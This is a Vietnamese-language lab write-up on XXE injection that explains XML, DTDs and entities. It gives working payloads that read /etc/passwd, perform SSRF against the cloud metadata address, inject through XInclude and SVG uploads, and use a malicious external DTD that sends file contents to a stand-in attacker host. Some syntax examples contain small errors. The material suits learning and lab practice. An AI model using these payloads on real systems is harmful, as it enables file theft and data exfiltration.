# XXE Injection
## Khái niệm:
XML (eXtensible Markup Language) hay "ngôn ngữ đánh dấu mở rộng", được thiết kế để lưu trữ và truyền tải dữ liệu mà cả con người lẫn hệ thống đều có thể đọc được. Dưới đây là ví dụ cho nội dung của 1 file .xml cơ bản (ví dụ này được lấy từ Viblo):

```xml
<?xml version="1.0" encoding="UTF-8"?>
     <book>
         <title>Italian</title>
         <author>Giada De Laurentiis</author>
         <year>2005</year>
         <price>30.00</price>
     </book>
```

Cấu trúc chính của 1 file .xml gồm 2 phần: Dòng đầu tiên là phần khai báo XML (XML Declaration), là phần bắt buộc để hệ thống biết đây là 1 file .xml. Còn lại là phần thân của file, gồm các cặp thẻ mở đóng tạo thành các phần tử.

Và, vì đây là 1 file có khả năng lưu trữ dữ liệu, nên nó cũng có 1 lỗ hỏng cho riêng mình là XXE (XML eXternal Entity). Về cơ bản, lỗ hỏng này cho phép attacker có thể tự định nghĩa thực thể (entity) là các phần tử nằm trong phần thân của file, tự cho chúng các chức năng bao gồm cả việc thực thi các lệnh lên hệ thống, từ đó attacker có thể tấn công/khai thác hệ thống.

## Lab:
### Lab: Exploiting XXE using external entities to retrieve files
Lab này có chức nằng `Check stock` có payload dưới dạng XML, với yêu cầu là inject XML external entity để lấy nội dung có trong `/etc/passwd`.

Ở phần khai báo XML, ngoài chức năng khai báo đây là file XML và encoding sử dụng, nó còn khai báo cấu trúc, format hợp lệ cho các thực thể và thuộc tính bằng DTD (Document Type Definition) hay "định nghĩa loại tài liệu". Có 2 kiểu khai báo, nếu nó được khai báo trong file XML thì đó là Internal XML, còn nếu khai báo bên ngoài file XML thì đó là External XML. Dưới đây là ví dụ của W3Schools:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "Note.dtd">
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```     
Cú pháp của thẻ <!DOCTYPE> như sau:
```xml
<!DOCTYPE root-element SYSTEM "URI" [ 
    <!-- internal subset declarations -->
]>
<!-- hoặc -->
<!DOCTYPE root-element PUBLIC "FPI" ["URI"] [ 
    <!-- internal subset declarations -->
]>
```
1. root-element: phần tử đầu tiên của document, chứa toàn bộ các phần tử khác nằm trong "[]"

2. SYSTEM/PUBLIC: Chỉ rõ xem DTD là public hay là private trong hệ thống, nếu là SYSTEM thì cung cấp đường dẫn tới DTD, còn nếu ngoài từ bên ngoài thì phải cung cấp định danh và vị trị DTD cần tìm đó.

3. Phần trong []: Chỉnh sửa trực tiếp DTD, mọi nội dụng tự định nghĩa sẽ nằm trong này.

Bên cạnh thẻ <!DOCTYPE>, Entity cũng có thể sử dụng DTD với cú pháp sau:
```xml
<!ENTITY entity-name "entity-value">
```
DTD Entity có thể sử dụng Internal và External, tương tự như DOCTYPE
Ví dụ Internal DTD Entity:
```xml
<!ENTITY website "google.com">
<!ENTITY action "access &website;">
<action>&website;</action>

Output:
<action>access google.com</action>
```
Ví dụ External DTD Entity:
```xml
<!ENTITY website SYSTEM "https://example.com/entities.dtd">
<!ENTITY action SYSTEM "access &website;">
<action>&website;</action>

Output:
<action>access google.com</action>
```

Quay trở lại bài lab, cấu trúc XML của `Check Stock` như sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

Ta có thể khai báo thực thể ngoài trỏ tới file `/etc/passwd` và yêu cầu hệ thống xem file đó:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ] >
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```



### Lab: Exploiting XXE to perform SSRF attacks
Tương tự như trên, nhưng khi này ta cần truy cập vào default URL của website để lấy key bí mật. Ta sẽ sử dụng payload có cấu trúc tương tự trên:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254"> ] >
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```


Lần theo thông báo lỗi, ta tìm được thông tin ta cần.



### Lab: Exploiting XInclude to retrieve files
Không phải lúc nào ta sẽ thấy được nguyên cấu trúc XML nằm ở payload. Một số website sẽ sử dụng service đẩy param nằm ở payload về phía server, server từ đó mới đặt vào file XML rồi mới xử lý dữ liệu. Vì thế nên ta không thể kiếm soát hoàn toàn file XML. Tuy nhiên, ta có thể "kiểm soát" một phần bằng cách sử dụng "XInclude", một "đặc trưng" của XML cho phép tạo một document XML từ các sub-doc. 

Ở lab này, ta sẽ chèn payload vào trong productID như sau:
```
productId=<foo+xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include+parse="text"+href="file:///etc/passwd"/></foo>&storeId=1
```



### Lab: Exploiting XXE via image file upload
Lab này yêu cầu ta khai thác XXE qua việc upload file. Ở lab trên, ta đã biết có thể sử dụng URI của `w3.org` để thêm các chức năng cho payload mà đáng lẽ ra ta không thể sử dụng được. 

Ở lab này, file upload nằm trong phần comment được đẩy lên có định dạng hình ảnh và sẽ hiển thị dưới dạng ảnh avatar profile:



Như có thể thấy, ngoài các định dạng ảnh thông thường như `.jpg`, `.png`,... ta có thể upload cả định dạng `.svg`, một định dạng ảnh có cấu trúc file tương tự với `.xml`. Và vì có sự tương đồng về cấu trúc, ta có thể chèn payload XXE để yêu cầu hệ thống hiển thị thông tin ta cần.

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">
        &xxe;
    </text>
</svg>
```

 

### Lab: Blind XXE with out-of-band interaction
Trái ngược với XXE thông thường, blind XXE xảy ra nhưng kết quả lại không hiển thị trực tiếp thông qua response.



Khi này, ta có thể sử dụng giao tiếp mạng out-of-bands, tức là để server gửi request tới domain ta kiểm soát.

Ở lab này, thay vì ta thực thi trực tiếp lệnh như trên, ta sẽ yêu cầu server gửi request tới domain, ở đây là domain của BurpSuite:



### Lab: Blind XXE with out-of-band interaction via XML parameter entities
Trong trường hợp server ngăn chặn việc tấn công bằng cách xác thực request hoặc là chỉ cho phép các attribute được chỉ định hoạt động, ta vẫn có thể bypass bằng cách khởi chạy param ngay trong phần khai báo.

Cú pháp cho param của XML DTD sẽ là:
```xml
<!ENTYTY % entity_name "entity_value">
```
Ở đây, ta sẽ sử dụng payload: 
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<domain>"> %xxe; ]>
```



### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Khi ta có thể khiến cho server gửi request tới domain bằng XXE, ta có thể khai thác thêm dữ liệu bằng cách sử dụng XML DTD. 

Nếu ta có một server có khả năng giao tiếp với mạng bên ngoài và mạng ngoài cũng có thể kết nối tới server, ta có thể tạo một file XML DTD độc, với payload cho lab này như sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfilt SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfilt;
```

Payload trên khai báo gián tiếp biến `exfilt` thông qua biến `eval`, với chức năng yêu cầu server gửi file `/etc/hostname` tới domain trong file, ở đây ta sẽ sử dụng domain của Burp Collaborator.

Ta đưa payload này vào `Craft Response` của email lab, rồi lưu trữ nó lại với đuôi .dtd:



Ở Request `POST /product/stock`, ta thêm dòng
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<server-ID>/exploit.dtd"> %xxe;]>
```
Mục đích của dòng này để yêu cấu server gọi file `exploit.dtd` và thực thi file này.

Sau khi gửi request, ta kiểm tra dữ liệu có trong Burp Collaborator, nếu dữ liệu gửi thành công thì sẽ xuất hiện trong log.



### Lab: Exploiting blind XXE to retrieve data via error messages
Một cách khác để khai thác vuln blind XXE chính là sử dụng lỗi trả về của hệ thống. Cũng với cách thức như lab trên, nhưng payload của file `.dtd` sẽ khác đi một chút:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Ở đây, biến `error` sẽ thực thi lệnh truy cập vào 1 file không tồn tại trong server. Điều này sẽ dẫn tới việc server thông báo lỗi, đồng thời vì là truy cập vào file có đường dẫn sau đó là 1 entity thực thi truy cập vào `/etc/passwd`, nên thông báo lỗi "vô tình" thực thi entity `file`, hiển thị nội dung có trong `/etc/passwd`:



